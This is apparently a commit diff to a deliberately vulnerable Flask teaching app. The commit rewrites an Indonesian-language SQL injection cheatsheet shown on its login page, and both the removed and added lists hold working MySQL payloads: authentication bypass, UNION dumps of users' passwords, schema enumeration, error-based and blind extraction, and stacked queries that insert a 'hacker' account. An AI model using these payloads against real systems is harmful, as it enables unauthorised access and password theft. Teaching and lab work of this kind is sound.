

Before and after one commit to maliks1/vulnerable-flask-app, a Flask app: page / in a window 1280 px wide. Shown: the part 629-2351 px from the top of the page at 89% size, without its empty margins (202-1077 px from the left). After the commit the page ends 2194 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions; some web fonts are replaced.

Commit message:
</think>
refactor(login): rewrite sqli payload cheatsheet

Replace payload list with new categories. Swap "Try" label to "Gunakan".

```diff
--- a/templates/login.html
+++ b/templates/login.html
@@ -301,47 +301,23 @@ head_extra %}
     <strong>Daftar Payload SQL Injection (Referensi Akademik)</strong>
     <span
       style="font-size: 0.75rem; color: var(--text-secondary); font-weight: 400"
-      >Kategori MySQL • Klik <em>Try</em> untuk menyalin payload ke form</span
+      >Kategori MySQL &bull; Klik <em>Gunakan</em> untuk menyalin payload ke form</span
     >
   </div>
   <div class="card-body pt-2 pb-2">
-    {% set cheats = [ ( "Classic Auth Bypass", "Mengevaluasi kondisi logika OR
-    yang selalu bernilai TRUE", "' OR '1'='1' -- ", "x", "", "Hasil Kueri: WHERE
-    username='' OR '1'='1' -- Membaca seluruh baris database dan meloloskan
-    login." ), ( "Comment Bypass (Admin)", "Masuk sebagai user tertentu tanpa
-    mengetahui password", "admin' -- ", "kosong", "", "Tanda komentar '-- '
-    memotong sisa kueri pemeriksaan kata sandi." ), ( "UNION - Dump All Users",
-    "Eksfiltrasi seluruh isi data user dari tabel database", "' UNION SELECT id,
-    username, password FROM users -- ", "x", "", "Mencocokkan jumlah kolom untuk
-    menyatukan rekaman tabel users asli dengan hasil login." ), ( "UNION -
-    Schema Enum", "Melakukan pemetaan struktur tabel & kolom sistem database",
-    "' UNION SELECT 1, table_name, column_name FROM information_schema.columns
-    WHERE table_schema=database() -- ", "x", "", "Mengekstrak nama tabel dan
-    kolom dari skema information_schema di MySQL." ), ( "Boolean Blind",
-    "Menebak karakter kata sandi satu per satu via logika respon", "' AND
-    (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' -- ",
-    "x", "", "Jika tebakan karakter pertama benar, halaman akan merespon
-    sukses." ), ( "Error-Based (ExtractValue)", "Memancing MySQL memuntahkan
-    error XML yang berisi data rahasia", "' AND
-    extractvalue(1,concat(0x3a,(SELECT password FROM users LIMIT 1))) -- ", "x",
-    "", "Fungsi extractvalue() memicu error XML yang menampilkan data sensitif."
-    ), ( "Time-Based Blind", "Mengetahui keberadaan data lewat estimasi delay
-    waktu eksekusi", "' AND IF((SELECT COUNT(*) FROM
-    users)>0,BENCHMARK(5000000,MD5(NOW())),0) -- ", "x", "", "Mengeksekusi
-    operasi berat BENCHMARK() jika kondisi bernilai TRUE untuk mendelay respon."
-    ), ( "UNION - MySQL Version", "Mencari versi spesifik dari database engine
-    aktif", "' UNION SELECT 1, version(), 3 -- ", "x", "", "Memanggil fungsi
-    bawaan version() untuk profiling database MySQL." ), ( "Error-Based
-    (UpdateXML)", "Memancing MySQL memuntahkan error XML parsing yang berisi
-    data", "' AND updatexml(1,concat(0x3a,(SELECT table_name FROM
-    information_schema.tables LIMIT 1)),1) -- ", "x", "", "Fungsi updatexml()
-    memicu error XML parsing yang menampilkan nama tabel." ), ( "Error-Based
-    (GeometryCollection)", "Memancing MySQL memuntahkan error geometri yang
-    berisi data sensitif", "' AND geometrycollection((SELECT * FROM (SELECT *
-    FROM (SELECT password FROM users LIMIT 1) AS t) AS t2)) -- ", "x", "",
-    "Konstruksi geometri yang tidak valid memicu error yang menampilkan data
-    sensitif." ) ] %} {% for name, desc, payload_user, payload_pass, badge, note
-    in cheats %}
+    {% set cheats = [
+      ( "Error Based", "Memancing error XML parsing untuk menampilkan data sensitif", "' AND updatexml(1,concat(0x3a,(SELECT password FROM users LIMIT 1)),1) -- ", "x", "", "Memicu error UpdateXML yang menampilkan isi field password." ),
+      ( "Illegal Query", "Menjalankan query dengan sintaks tidak valid / illegal", "' OR (SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b) -- ", "x", "", "Memicu error subquery atau join yang tidak valid." ),
+      ( "Union Based", "Menggabungkan hasil query asli dengan query SELECT tambahan", "' UNION SELECT 1, username, password FROM users -- ", "x", "", "Mengekstrak data dari tabel users secara langsung ke layar." ),
+      ( "Tautology", "Menggunakan kondisi logika OR yang selalu bernilai TRUE", "' OR '1'='1' -- ", "x", "", "Bypass login karena kueri menghasilkan nilai TRUE." ),
+      ( "Stored Procedure", "Memanggil fungsi atau prosedur bawaan database engine", "admin'; CALL sys.ps_setup_reload_saved() -- ", "x", "", "Mengeksekusi stored procedure bawaan database MySQL." ),
+      ( "End-of-Line Comment", "Memotong sisa kueri password menggunakan tanda komentar", "admin' -- ", "x", "", "Mengabaikan verifikasi password dengan memotong sisa query." ),
+      ( "Inline Comments", "Menggunakan komentar inline /**/ untuk memanipulasi parsing", "admin'/**/OR/**/'1'='1", "x", "", "Mengelabui pemrosesan parser atau WAF menggunakan inline comments." ),
+      ( "Stacked Queries", "Menjalankan banyak kueri SQL menggunakan pemisah titik koma", "admin'; INSERT INTO users (username, password) VALUES ('hacker', 'hacker123'); -- ", "x", "", "Menambahkan kueri INSERT baru setelah kueri login." ),
+      ( "Time-based blind", "Mengetahui status kondisi logika via delay respon (sleep)", "' AND IF(1=1, sleep(5), 0) -- ", "x", "", "Menunda respon server selama 5 detik jika kondisi bernilai benar." ),
+      ( "Boolean-Based Blind", "Menguji logika kondisi BENAR/SALAH untuk menebak data", "' AND (SELECT 1 FROM users WHERE username='admin')='1' -- ", "x", "", "Memeriksa apakah user 'admin' ada dengan mengamati respon sukses." )
+    ] %}
+    {% for name, desc, payload_user, payload_pass, badge, note in cheats %}
     <div class="cheat-item">
       <div class="cheat-header">
         <div class="cheat-meta">
@@ -354,8 +330,8 @@ head_extra %}
         <button
           class="try-btn js-cheat-btn"
           type="button"
-          data-username="{{ payload_user | tojson }}"
-          data-password="{{ payload_pass | tojson }}"
+          data-username="{{ payload_user }}"
+          data-password="{{ payload_pass }}"
         >
           Gunakan
         </button>
@@ -378,8 +354,8 @@ head_extra %}
 
     document.querySelectorAll(".js-cheat-btn").forEach((button) => {
       button.addEventListener("click", () => {
-        usernameInput.value = JSON.parse(button.dataset.username || '""');
-        passwordInput.value = JSON.parse(button.dataset.password || '""');
+        usernameInput.value = button.dataset.username || "";
+        passwordInput.value = button.dataset.password || "";
         usernameInput.focus();
       });
     });
```
